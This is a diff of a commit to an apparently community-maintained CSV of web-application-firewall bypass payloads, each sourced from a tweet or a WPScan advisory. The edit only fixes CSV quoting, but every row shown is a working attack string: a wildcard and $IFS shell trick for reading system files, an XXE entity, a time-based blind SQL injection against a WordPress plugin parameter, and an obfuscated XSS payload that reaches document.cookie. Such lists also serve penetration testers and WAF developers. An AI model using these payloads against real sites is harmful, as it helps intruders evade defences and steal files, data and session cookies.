

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -460,3 +460,3 @@ https://twitter.com/0x0SojalSec/status/1653830922679250944,/???/???/c?t$IFS/???/
 https://twitter.com/gdprAI/status/1653160069109026816,"<!DOCTYPE foo [<!ENTITY % a ""&#x3c;&#x21; ... omitted ...", xxe
-https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,{"sku":"a\" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU"},sqli
+https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,"{"sku":"a\" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU""}",sqli
 https://twitter.com/ShawarkOFFICIAL/status/1656050953660043265,"><BODy onbeforescriptexecute="x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c">,xss
```
